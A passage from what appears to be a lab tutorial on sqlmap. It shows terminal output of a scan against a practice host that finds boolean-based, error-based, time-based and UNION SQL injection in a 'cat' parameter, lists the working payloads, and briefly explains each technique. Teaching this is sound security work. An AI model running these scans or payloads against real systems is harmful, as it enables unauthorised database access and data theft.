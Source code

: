 ```shell-session
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1
      __H__
 ___ ___[']_____ ___ ___  {1.2.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:43:49] [INFO] testing connection to the target URL
[08:43:49] [INFO] heuristics detected web page charset 'ascii'
[08:43:49] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[08:43:49] [INFO] testing if the target URL content is stable
[08:43:50] [INFO] target URL content is stable
[08:43:50] [INFO] testing if GET parameter 'cat' is dynamic
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

The results in the above terminal show us that different types of SQL injection, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL. These are different techniques for exploiting a SQL injection vulnerability. For example, in the boolean-based blind SQL injection, the SQL query is modified, and a boolean expression (that is always true, e.g., `1=1`) is included with the query to extract the information. Whereas in the error-based SQL injection, some queries are intentionally modified to generate errors in the results sent by the database. These errors often contain valuable information about the data. Similarly, other SQL injection techniques can also be employed to exploit a database.
